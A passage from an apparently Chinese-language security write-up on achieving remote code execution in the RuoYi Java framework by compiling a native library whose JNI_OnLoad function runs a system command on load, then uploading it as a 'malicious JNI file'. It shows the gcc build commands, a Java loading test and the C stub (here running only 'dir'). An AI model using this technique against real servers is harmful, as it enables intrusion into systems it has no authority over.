 然后执行下面命令编写为 dll 文件  
  
Win:  
  
  
```
gcc -I "C:\Program Files\Java\jdk1.8.0_112\include" -I "C:\Program Files\Java\jdk1.8.0_112\include\win32" -shared -o cmd.dll .\cmd.c
```  
  
Linux:  
  
  
  
```
gcc -fPIC -I"/root/jdk8/include" -I "/root/jdk8/include/linux" -shared -o rce.so cmd.c
```  
  
编译出来dll后我们通过本地的加载测试是否能正常执行  
```
package com.ruoyi.system;

public class Text {
   public static void main(String[] args) {
       System.out.println("Library path: " + System.getProperty("java.library.path"));
       System.loadLibrary("cmd");
   }
}
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvAPOSnWSiaRRV1gQNG57ibpAfictgmRicsvVQ7MoF0JyVQrRuKEx1axeX0Q/640?wx_fmt=png&from=appmsg "")  
  
本地的演示。  
  
问题  
  
  
  
怎么让他在加载的时候就调用执行命令呢？  
  
使用JNI_OnLoad解决：  
```
#include <jni.h>
#include <stdio.h>

JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM *vm, void *reserved) {
   printf("JNI_OnLoad called! 执行初始化操作\n");

   // 这里写你想执行的命令，比如启动外部程序、初始化资源等
   system("dir"); // Windows示例，Linux可换成"ls"

   return JNI_VERSION_1_6;  // 返回JNI版本，必须返回合适的版本
}
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyv03QD7lVVxibYet6Ra5HZZsUbCdoNibs3pn3yC8c8CfMr0AR71BokmR2w/640?wx_fmt=png&from=appmsg "")  
  
现在开始R Ruoyi吧  
  
上传恶意JNI文件  
  